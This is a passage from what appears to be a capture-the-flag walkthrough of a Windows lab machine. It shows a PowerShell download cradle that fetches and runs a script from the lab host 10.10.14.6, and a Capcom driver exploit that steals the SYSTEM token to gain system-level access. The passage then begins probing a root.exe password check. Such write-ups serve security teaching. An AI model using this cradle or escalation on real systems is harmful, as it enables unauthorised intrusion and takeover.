 

There are two exported functions. I'll call `Capcom-ElevatePID` once I
get the PowerShell into my current session.

#### Run It

Now I'll use the PowerShell `iex` cradle to load all that PowerShell
into my current session:



    PS C:\> iex(new-object net.webclient).downloadstring('http://10.10.14.6/capcom-all')



Now it's as simple as running `capcom-elevatepid`:



    PS C:\> capcom-elevatepid

    [+] SYSTEM Token: 0xFFFFC0001B60777C
    [+] Found PID: 5096
    [+] PID token: 0xFFFFC0001D8A1066
    [!] Duplicating SYSTEM token!

    PS C:\programdata> whoami
    nt authority\system



## Root Flag

### Enumeration

On getting to the Administrator's desktop, there's no `root.txt`, but
two executable files:



    PS C:\users\administrator\desktop> ls

        Directory: C:\users\administrator\desktop

    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    -a---        24/10/2017     17:02       9216 checkdll.dll                      
    -a---        08/01/2018     22:34       9728 root.exe   



If I run `root.exe`, it shows the proper way to run it, with a password:



    PS C:\users\administrator\desktop> .\root.exe
    C:\users\administrator\desktop\root.exe <password>



Giving it a wrong password shows an error message:



    PS C:\users\administrator\desktop> .\root.exe 0xdf
    Sorry, check returned: 0
